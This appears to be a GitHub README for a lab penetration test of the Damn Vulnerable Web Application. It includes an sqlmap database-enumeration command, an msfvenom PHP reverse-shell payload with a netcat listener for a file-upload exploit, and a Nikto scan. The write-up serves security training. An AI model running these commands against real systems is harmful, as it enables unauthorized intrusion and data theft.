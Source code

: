 # DVWA Vulnerability Assessment

This project documents the process of identifying and exploiting various vulnerabilities in the **Damn Vulnerable Web Application (DVWA)**, a deliberately insecure web application designed for practicing penetration testing techniques.

---

## **Table of Contents**
1. [Project Overview](#project-overview)
2. [Setup](#setup)
   - [Installing DVWA Using Docker](#installing-dvwa-using-docker)
3. [Vulnerabilities Explored](#vulnerabilities-explored)
   - [1. SQL Injection](#1-sql-injection)
   - [2. File Upload Vulnerability](#2-file-upload-vulnerability)
   - [3. General Vulnerability Testing Using Nikto](#3-general-vulnerability-testing-using-nikto)
4. [Tools Used](#tools-used)
5. [Screenshots](#screenshots)
6. [Writeups](#writeups)
   - [SQL Injection Writeup](sql-injection.md)
   - [File Upload Vulnerability Writeup](file-upload.md)

---

## **Project Overview**
The goal of this project is to demonstrate practical penetration testing skills by:
1. Setting up a DVWA instance using Docker.
2. Exploring and exploiting vulnerabilities in the application, including SQL Injection and File Upload vulnerabilities.
3. Using tools such as `sqlmap`, `Nikto`, and `msfvenom` to perform the assessment.
4. Providing detailed documentation for each vulnerability with remediation suggestions.

---

## **Setup**

### Installing DVWA Using Docker
The following steps were performed to set up DVWA using Docker:

1. **Start and Enable Docker**:
   ```bash
   sudo systemctl start docker
   sudo systemctl enable docker
   ```

2. **Pull DVWA Docker Image**:
   ```bash
   sudo docker pull vulnerables/web-dvwa
   ```

3. **Run DVWA**:
   ```bash
   sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa
   ```

Refer to the screenshot below for the commands executed:
![Installing DVWA Using Docker](![installing dvwa using docker Screenshot 2025-01-13 031714](https://github.com/user-attachments/assets/2b7ba66e-c526-4b87-8d1e-35932f432ab4)
)

4. Access the application at `http://127.0.0.1` and set the **security level to Low**.

---

## **Vulnerabilities Explored**

### 1. SQL Injection
- **Objective**: Exploit the SQL Injection vulnerability to extract sensitive information.
- **Steps**:
  1. Navigated to the **SQL Injection** module in DVWA.
  2. Used `sqlmap` to automate the exploitation.
     ```bash
     sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit" \
            --cookie="PHPSESSID=<SESSION_ID>; security=low" --dbs
     ```
  3. Successfully enumerated the databases and confirmed the application is vulnerable.

For a detailed writeup, see: [SQL Injection Writeup](sql-injection.md)

---

### 2. File Upload Vulnerability
- **Objective**: Exploit the File Upload vulnerability to upload a malicious PHP payload.
- **Steps**:
  1. Used `msfvenom` to create a reverse shell payload:
     ```bash
     msfvenom -p php/reverse_php LHOST=192.168.191.128 LPORT=4444 -f raw > shell.php
     ```
  2. Uploaded the payload via the File Upload module.
  3. Triggered the payload and successfully established a reverse shell using Netcat:
     ```bash
     nc -lvnp 4444
     ```
For a detailed writeup, see: [File Upload Vulnerability Writeup](file-upload.md)

---

### 3. General Vulnerability Testing Using Nikto
- **Objective**: Scan for general vulnerabilities using `Nikto`.
- **Steps**:
  1. Ran a `Nikto` scan on the application:
     ```bash
     nikto -h http://127.0.0.1
     ```
  2. Identified issues such as outdated Apache version and missing security headers.

---

## **Tools Used**
1. **Docker**: For running the DVWA container.
2. **Nikto**: To scan for general web application vulnerabilities.
3. **Sqlmap**: To automate SQL Injection attacks.
4. **Msfvenom**: For generating a malicious PHP reverse shell payload.
5. **Netcat**: For establishing a reverse shell connection.

---

## **Screenshots**
1. ([SQLmap Command Execution]((https://github.com/user-attachments/assets/9be88cbf-7e4f-45ee-8f6d-942268c6ecfd))
   
2. ([SQLmap Results]((https://github.com/user-attachments/assets/2ea824fc-d18e-43b7-8d4c-1dc6347768e2)
)
3. ([Nikto Scan Results]((https://github.com/user-attachments/assets/c5d334f2-ca77-47e4-97e0-f3206880479c)
)
4. ([Reverse Shell Connection]((https://github.com/user-attachments/assets/3dc931c8-7e55-4e63-aa7d-3310bcc36991)
)

---

## **Writeups**

- [SQL Injection Writeup](sql-injection.md)
- [File Upload Vulnerability Writeup](file-upload.md)
- [Nikto Scan Writeup](nikto-scan.md)

Refer to individual writeups for detailed steps, analysis, and mitigation suggestions.

